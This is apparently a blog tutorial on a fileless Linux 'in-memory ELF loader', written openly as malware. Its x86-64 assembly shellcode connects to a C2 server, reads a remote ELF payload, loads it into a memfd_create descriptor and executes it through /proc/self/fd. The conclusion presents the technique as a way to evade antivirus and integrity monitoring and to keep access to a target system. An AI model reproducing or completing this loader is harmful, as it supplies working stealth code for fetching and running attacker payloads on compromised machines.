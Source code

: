 ```yaml
---
title: Remote in-memory ELF loader
categories: [Programming]
tags: [assembly, malware]
author: enty8080
---
```


Fileless malware distribution is gaining popularity.
What is not surprisingly, because the work of such programs leaves almost no traces.
Moreover, since the very beginning hackers always searched for ways to stay anonymous and hide their malware on the system.
Thats why we focused on deep diving into this subject and came with the idea.
In Windows, there is **Reflective DLL Injection** which allows to execute malware right into the memory of the compromised process, but on Linux there is no such existing implementation.
So, then we thought, why not to use different ways of executing ELF files?

We found out that there is a technique of creating temporary filesystem using `/dev/shm`, but this actually does not provide us what we want.
Out goal is to execute ELF file right into the memory, not from the disk.
And then, after reading this [very interesting article](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html) we decided to improve method described in it.
As we all know it is possible to create different file descriptor and write data to it.
This file descriptor will appear in `/proc/<pid/fd/<fd>` and then can be executed as a file.

Fortunately, `procfs` does not exist on disk and kernel creates it in the memory which is a good thing for us:

```
The /proc filesystem contains a illusionary filesystem.
It does not exist on a disk. Instead, the kernel creates it in memory.
```

*3.7. The /proc filesystem*

So, the concept of the whole process is:

**1.** Read ELF data from socket
**2.** Map it into the memory
**3.** Write to the created file descriptor
**4.** Execute it from `/proc/self/fd/<fd>`

## Shellcode

Let's begin writing our shellcode.

First step is to set up socket for further communication:

```nasm
.equ SYS_SOCKET     0x29
.equ AF_INET        0x2
.equ SOCK_STREAM    0x1

_sys_socket:
    push SYS_SOCKET
    pop rax
    cdq
    push AF_INET
    pop rdi
    push SOCK_STREAM
    pop rsi
    syscall
```

Now, we are ready to connect to our C2 server:

```nasm
_sys_connect:
    xchg rdi, rax
    movabs rcx, C2_ADDR
    push rcx
    mov rsi, rsp
    push 0x10
    pop rdx
    push 0x2a
    pop rax
    syscall
```

Lets imagine that we now read ELF file length and have it in the `r12` register.
Moreover, we have already allocated memory using `mmap` and have address pointing to it in `r15`.
Then, we have already read ELF data to the allocated memory and the next step is to create file descriptor.
For this purpose we are gonna use `memfd_create` system call:

```nasm
.equ SYS_MEMFD 0x13f
.equ FILE_SIZE 0x8

_sys_memfd:
    xor rax, rax
    push rax
    push rsp
    sub rsp, FILE_SIZE
    mov rdi, rsp
    push SYS_MEMFD
    pop rax
    xor rsi, rsi
    syscall
```

Then we save our file descriptor to `r14` via `push rax; pop r14` and then we need to write our ELF data from the allocated memory right to the file descriptor.
After all these steps done, we need to concatenate `/proc/self/fd/` and our file descriptor. There are different ways to do this, but in our case we'll use stack:

```nasm
add rsp, 16
mov qword ptr [rsp], 0x6f72702f
mov qword ptr [rsp+4], 0x65732f63
mov qword ptr [rsp+8], 0x662f666c
mov qword ptr [rsp+12], 0x002f64
```

Then we need to convert our file descriptor to the string and append it to the stack above. We'll pass this step.

Now, we are ready to execute our file descriptor using `execve`:

```nasm
.equ SYS_EXECVE 0x3b

_sys_execve:
    lea rdi, [rsp]
    push SYS_EXECVE
    pop rax
    cdq
    push rdx
    push rdi
    mov rsi, rsp
    syscall
```

First instruction puts path `/proc/self/fd/<fd>` to the first argument of `execve`.

As the result, we'll get our ELF file executed. And we didn't even touch the disk!

## Conclusion

Fileless loading of ELF files in Linux is a useful technique when doing
penetration testing. This is a fairly quiet way to
resist a wide range of anti-virus protection, control systems
integrity and monitoring systems that monitor content changes
hard drive. In this way, access to the target can be easily maintained.
system, leaving a minimum of traces.
